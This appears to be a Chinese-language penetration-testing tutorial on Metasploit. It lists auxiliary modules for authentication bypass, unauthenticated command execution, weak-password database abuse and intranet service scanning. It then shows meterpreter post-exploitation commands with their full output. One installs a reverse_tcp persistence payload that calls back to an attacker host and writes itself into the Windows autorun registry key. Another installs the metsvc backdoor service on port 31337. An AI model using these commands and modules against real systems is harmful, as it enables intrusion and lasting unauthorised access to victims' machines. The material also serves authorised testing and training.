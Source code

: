 ![](http://7xicbb.com1.z0.glb.clouddn.com/mssql.png)

一些好用的模块

	auxiliary/admin/realvnc_41_bypass  (Bypass VNCV4网上也有利用工具)
    auxiliary/admin/cisco/cisco_secure_acs_bypass （cisco Bypass 版本5.1或者未打补丁5.2版 洞略老）
    auxiliary/admin/http/jboss_deploymentfilerepository （内网遇到Jboss最爱:)）
    auxiliary/admin/http/dlink_dir_300_600_exec_noauth (Dlink 命令执行:)
    auxiliary/admin/mssql/mssql_exec （用爆破得到的sa弱口令进行执行命令 没回显:(）
    auxiliary/scanner/http/jboss_vulnscan (Jboss 内网渗透的好朋友)
    auxiliary/admin/mysql/mysql_sql (用爆破得到的弱口令执行sql语句:)
    auxiliary/admin/oracle/post_exploitation/win32exec （爆破得到Oracle弱口令来Win32命令执行）
    auxiliary/admin/postgres/postgres_sql (爆破得到的postgres用户来执行sql语句)
    


    
还一些。。。。你懂的脚本 ：）
	
    auxiliary/scanner/rsync/modules_list  （Rsync）
    auxiliary/scanner/misc/redis_server  (Redis)
    auxiliary/scanner/ssl/openssl_heartbleed (心脏滴血)
    auxiliary/scanner/mongodb/mongodb_login (Mongodb)
    auxiliary/scanner/elasticsearch/indices_enum (elasticsearch)
	auxiliary/scanner/http/axis_local_file_include (axis本地文件包含)
    auxiliary/scanner/http/http_put (http Put)
    auxiliary/scanner/http/gitlab_user_enum (获取内网gitlab用户)
    auxiliary/scanner/http/jenkins_enum (获取内网jenkins用户)
    auxiliary/scanner/http/svn_scanner （svn Hunter :)）
    auxiliary/scanner/http/tomcat_mgr_login (Tomcat 爆破)
    auxiliary/scanner/http/zabbix_login （Zabbix :)）
    


##0x04  AfterWards?

###后门:)

####I Don't LIke

	meterpreter > run persistence -X -i 5 -p 23333 -r 10.42.0.1
	[*] Running Persistance Script
	[*] Resource file for cleanup created at /home/croxy/.msf4/logs/persistence/TESTING_20150930.3914/TESTING_20150930.3914.rc
	[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=10.42.0.1 LPORT=23333
	[*] Persistent agent script is 148453 bytes long
	[+] Persistent Script written to C:\Users\Croxy\AppData\Local\Temp\ulZpjVBN.vbs
	[*] Executing script C:\Users\Croxy\AppData\Local\Temp\ulZpjVBN.vbs
	[+] Agent executed with PID 4140
	[*] Installing into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\okiASNRzcLenulr
	[+] Installed into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\okiASNRzcLenulr

一个vbs后门容易被发现 写入了开机启动项

####My Love

	meterpreter > run metsvc
	[*] Creating a meterpreter service on port 31337
	[*] Creating a temporary installation directory C:\Users\Croxy\AppData\Local\Temp\tuIKWqmuO...
	[*]  >> Uploading metsrv.x86.dll...
	[*]  >> Uploading metsvc-server.exe...
	[*]  >> Uploading metsvc.exe...
	[*] Starting the service...  
	     * Installing service metsvc  
	 * Starting service  
	Service metsvc successfully installed.  
